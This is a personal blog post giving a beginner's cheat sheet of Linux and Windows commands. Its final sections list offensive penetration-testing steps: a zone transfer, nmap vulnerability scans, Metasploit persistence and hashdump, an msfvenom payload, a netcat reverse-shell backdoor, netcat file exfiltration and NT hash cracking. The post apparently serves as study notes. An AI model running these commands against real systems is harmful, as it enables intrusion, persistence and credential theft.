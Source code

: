 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
<strong>
	<li><code>C:\> <command> /? </code></li>
	<li><code>root@kl~# <command> -h </code></li>
	<li><code>root@kl~# <command> --help </code></li>
	<li><code>root@kl~# man <command> </code></li>
	<li><code>root@kl~# apropos </code></li>
	<li><code>root@kl~# history </code></li>
	<li><code>root@kl~# hostname</code></li>
	<li><code>root@kl~# sudo </code></li>
	<li><code>root@kl~# whoami </code></li>
</strong>
		<ul>
		<li>(print current user id and name)</li>	
		</ul>
<strong>
	<li><code>root@kl~# date </code></li> 
	<li><code>C:\>  chdir </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
<strong>
	<li><code>root@kl~# pwd </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
</ul>
<h6>Processes and Things</h6>
<ul>
<strong>
	<li><code>root@kl~# jobs </li></code>
</strong>
		<ul>
		<li>(list cronjobs)<li>
		</ul>
<strong>
	<li><code>root@kl~# kill </li></code>
</strong>
		<ul>
		<li>(stop processes)<li>
		</ul>
<strong>
	<li><code>root@kl~# pkill </li></code>
</strong>
		<ul>
		<li>(stop processes)<li>
		</ul>
<strong>	
	<li><code> root@kl~# ps –aef </li></code>
</strong>
		<ul>
		(list processes status)
		</ul>
<strong>
	<li><code>C:\ tasklist </li></code>
<strong>
</ul>

<h6>Files</h6>
root@kl~# cp <src> <dst> (copy)
C:\> copy <src> <dst>
root@kl~# clear
C:\> cls
C:\> dir
root@kl~# echo <message>
(print to screen)
root@kl~# find –iname <file>
C:\> findstr /i /s <string> *.txt
(like grep for Windows)
root@kl~# file
(determine file type)
C:\> dir \ <file> /b /s
root@kl~# grep
(search files for matching text)
root@kl~# gzip
(compress or decompress files)
root@kl~# less 
(display output one screen at a time)
root@kl~# locate
root@kl~# ls
root@kl~# mkdir 
(new directory)
root@kl~# mv <src><dst> (move/rename a file)
C:\>  move <src> <dst>
root@kl~# rm (remove files)
C:\> ren (renames file)
root@kl~# umask 
(users file creation mask)
root@kl~# uniq 
(uniquify files)
root@kl~# vi/vim 
(the best text editor)
root@kl~# wc 
(print byte, word and line counts)
root@kl~# whereis 
(search $path, man pages and source files for program)
Users
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
